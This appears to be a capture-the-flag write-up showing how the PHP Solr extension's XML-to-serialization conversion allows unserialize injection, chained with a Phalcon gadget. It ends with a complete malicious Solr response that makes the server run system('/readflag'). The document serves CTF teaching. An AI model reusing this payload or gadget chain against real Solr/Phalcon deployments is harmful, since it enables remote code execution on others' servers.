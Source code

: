 # Soracon

My friend called me to mine a new 0day of Apache Solr, so I found this!

## Writeup

### Solr

We can control the Solr response now. If we read the solr extensions's source code, we will know it will convert XML response to PHP serialization format (https://github.com/php/pecl-search_engine-solr/blob/2.5.1/src/php7/php_solr_response.c#L239) then use `php_var_unserialize` to make `SolrObject`. 

And let us read the convert helper, the following code will convert `<int>123456</int>` to `i:12345` ( https://github.com/php/pecl-search_engine-solr/blob/2.5.1/src/php7/solr_functions_helpers.c#L1142 )

```c
/* {{{ static void solr_encode_int(const xmlNode *node, solr_string_t *buffer, solr_encoding_type_t enc_type, long int array_index, long int parse_mode) */
static void solr_encode_int(const xmlNode *node, solr_string_t *buffer, solr_encoding_type_t enc_type, long int array_index, long int parse_mode)
{
	solr_char_t *data_value = (solr_char_t *) solr_xml_get_node_contents(node);
	size_t data_value_len   = solr_strlen(data_value);
	solr_write_variable_opener(node, buffer, enc_type, array_index);
	solr_string_append_const(buffer, "i:");
	solr_string_appends(buffer, data_value, data_value_len);
	solr_string_appendc(buffer, ';');
}
/* }}} */
```

So we can do... UNSERIALIZE INJECTION! (wtf)

This is an example Solr reponse:
```xml
<?xml version="1.0" encoding="UTF-8"?>'
<response>
<result name="response" numFound="1" start="0" numFoundExact="true">
  <doc name="fuck">
    <int name="a">123456</int>
    <int name="b">12345678</int>
  </doc>
</result>
</response>
```

If we add a printf before https://github.com/php/pecl-search_engine-solr/blob/2.5.1/src/php7/php_solr_response.c#L290 , we will get the response like this:

```
O:10:"SolrObject":1:{s:8:"response";O:10:"SolrObject":3:{s:8:"numFound";i:1;s:5:"start";i:0;s:4:"docs";a:1:{i:0;O:10:"SolrObject":2:{s:1:"a";i:123456;s:1:"b";i:12345678;}}}}
```

You can't use `123456;i:0;i:1` like SQL injection to add a new element into `SolrObject`(Check ![var_unserializer.re](https://github.com/php/php-src/blob/php-7.4.20/ext/standard/var_unserializer.re) for detail), but you can manually close all brackets. PHP will stop reading all the remaining characters if unserialization is done(brackets are all closed).

```php
php > print_r(unserialize('a:2:{i:0;i:123456;i:1;i:12345678;}'));
Array
(
    [0] => 123456
    [1] => 12345678
)
php > print_r(unserialize('a:2:{i:0;i:123456;i:1;i:8888;}aabccdefg'));
Array
(
    [0] => 123456
    [1] => 8888
)
php > print_r(unserialize('i:12345678;aaadasjkda'));
12345678
```

Now we can unserialize all we needed.

### Phalcon unserialize gadget chain

I know somebody implemented PHP unserialize gadget auto mining tool, how to let it invalid? The simplest way is to find a gadget which not written in PHP. (wtf)

Phalcon is the best choice for this. It's written in Zephir and will be compiled to C. This chain is easy to find and read, so just see `chain.php`.


## Solution
Let your server respond this:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<response>
<result name="response" numFound="1" start="0" numFoundExact="true">
  <doc name="fuck">
    <int name="a">12345678;i:0;O:29:"Phalcon\Logger\Adapter\Stream":8:{s:16:"defaultFormatter";s:4:"Json";s:9:"formatter";N;s:13:"inTransaction";b:1;s:5:"queue";a:1:{i:0;O:10:"Phalcon\Di":3:{s:8:"services";a:1:{s:7:"context";O:18:"Phalcon\Di\Service":4:{s:10:"definition";a:3:{s:9:"className";s:18:"Phalcon\Validation";s:9:"arguments";a:0:{}s:5:"calls";a:2:{i:0;a:2:{s:6:"method";s:3:"add";s:9:"arguments";a:2:{i:0;a:2:{s:4:"type";s:9:"parameter";s:5:"value";a:1:{i:0;s:0:"";}}i:1;a:2:{s:4:"type";s:9:"parameter";s:5:"value";O:37:"Phalcon\Validation\Validator\Callback":3:{s:9:"templates";a:0:{}s:7:"options";a:2:{s:7:"message";s:0:"";s:8:"callback";s:6:"system";}s:8:"template";s:0:"";}}}}i:1;a:2:{s:6:"method";s:8:"validate";s:9:"arguments";a:1:{i:0;a:2:{s:4:"type";s:9:"parameter";s:5:"value";O:21:"Phalcon\Acl\Component":2:{s:11:"description";s:0:"";s:4:"name";s:9:"/readflag";}}}}}}s:8:"resolved";b:0;s:6:"shared";b:0;s:14:"sharedInstance";N;}}s:15:"sharedInstances";a:0:{}s:13:"eventsManager";N;}}s:7:"handler";N;s:4:"mode";s:2:"ab";s:4:"name";s:10:"/tmp/1.txt";s:7:"options";N;}}}}}}</int>
    <int name="b">0</int>
  </doc>
  <fuck></fuck>
</result>
</response>
```